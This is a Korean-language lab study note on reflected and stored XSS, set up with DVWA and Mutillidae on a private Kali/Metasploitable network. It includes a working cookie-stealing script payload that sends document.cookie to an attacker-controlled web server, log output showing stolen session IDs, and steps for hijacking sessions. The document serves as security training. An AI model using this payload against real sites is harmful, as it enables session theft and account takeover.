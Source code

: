 # Wireshark
패킷 캡쳐 프로그램

<br><br><br>

# Reflected XSS
- 특정한 피해자를 대상으로 함
- 웹 서버에 XSS가 남는 것은 아님

실습 방법
1. 칼리에 웹서버를 설치 후 `tail -f` 로 로그파일 모니터링 시작
2. 윈도우에서 DVWA에 `admin:password` 로 로그인 한 뒤 XSS reflected에 아래 내용 입력
``` js
<script>document.location='http://192.168.60.128/cookie?'+document.cookie</script>
```
3. 윈도우에서 `404 Not Found` 가 보임과 동시에 칼리에서는 쿠키 정보로써 세션을 탈취한 아래 내용이 보임

`192.168.60.1 - - [09/Apr/2021:17:18:51 +0900] "GET /cookie?security=low;%20PHPSESSID=48b916e85b42330e04852ff049d5f064 HTTP/1.1" 404 188 "http://192.168.60.129/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36"`

4. 칼리에서 DVWA에 `pablo:letmein` 또는 `smithy:password` 로 로그인
5. Cookie Editor 에서 `PHPSESSID` 를 로그 파일의 내용으로 변경
6. 새로고침 하면 왼쪽 아래에 Username 이 admin 으로 된 것을 볼 수 있음
7. 윈도우에서 로그인 된 admin 을 로그아웃 한 후 칼리에서 새로고침 하면 세션이 끊겨서 같이 로그아웃 되는 것을 볼 수 있음

<br><br><br>

# Stored XSS
- 임의의 다수를 대상으로 함
- ‘Stored’ 단어처럼 웹서버에 XSS를 저장해서 남김

<br><br><br>

# OWASP Top 10
특정 해마다 웹 취약점 중에서 빈도가 많고 보안상 영향을 크게 주는 10가지를 선정해서 발표됨

이 취약점들을 `Mutillidae` 에서 실습 해볼 것임

<br><br><br>

# Mutillidae
시작하기에 앞서 `Metasplotiable2` 운영체제의 루트 권한으로 `/var/www/multillidae/config.inc` 파일을 아래 내용에 맞춰 수정하자.
``` php
$dbname = 'owasp10';
```
이로써 데이터베이스가 정상 연결되어 회원가입 등이 원할하게 사용된다.

아까와 같이 `XSS` 실습을 `Mutillidae` 에서 해보자.

1. 칼리에서 `tail -f /var/log/nginx/access.log` 로 로그 모니터링
2. 윈도우에서 `test:test` 회원가입 후 로그인
3. `OWASP Top 10` > `A2 (XSS)` > `Reflected` > `DNS Lookup` 에서 아까와 같은 스크립트를 실행하면 아래와 비슷한 로그 확인

`192.168.60.1 - - [09/Apr/2021:18:07:39 +0900] "GET /cookie?username=test;%20uid=17;%20PHPSESSID=2aae495d56711c667e53e602925e5876 HTTP/1.1" 404 188 "http://192.168.60.129/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36"`

4. 쿠키 값으로 `username` / `uid` / `PHPSESSID` 가 보이는데 이것을 칼리 Cookie Editor 로 전부 입력 후 새로고침
5. 왼쪽 상단에 `Logged In User` 가 `test` 인것을 확인할 수 있음

만약 재현을 하려고 윈도우와 칼리에서 웹 브라우저 주소창 왼쪽의 좌물쇠 모양을 누르고 쿠키들을 모두 지워주면 된다.
